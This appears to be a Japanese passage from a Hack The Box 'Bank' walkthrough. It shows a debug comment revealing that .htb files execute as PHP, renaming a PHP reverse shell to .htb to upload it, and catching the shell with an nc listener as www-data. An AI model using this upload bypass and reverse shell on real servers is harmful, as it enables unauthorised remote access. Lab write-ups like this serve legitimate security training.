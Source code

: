 ![スクリーンショット 2020-05-28 9.08.22.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/39751491-750b-f6e1-1955-2dcfb376ebe3.png)

こんな感じで設定します。

## /support.php
このように redirect 前のページを見れます。

![スクリーンショット 2020-05-28 8.18.16.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/8a759dc2-f83b-dd05-2cd7-e4a8cae3d27a.png)



## sourceを確認
```html:
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
```
怪しい

## php-reverse-shell

https://github.com/sanposhiho/MY_CHEAT_SHEET/blob/master/reverse_shell.md#php

```
kali@kali:~$ vim php-reverse-shell.php  
kali@kali:~$ mv php-reverse-shell.php php-reverse-shell.htb
```

.htb に変えて upload します

![スクリーンショット 2020-05-28 8.39.29.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/77958f2a-b4ac-c158-75e5-2fd8b6f51123.png)

Click here を click するとリバースシェルが取れます

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.29] 49704
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 02:43:10 up 1 day, 21:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```

user.txt が取れます

## 探索


/var/www/bank/bankreports.txt
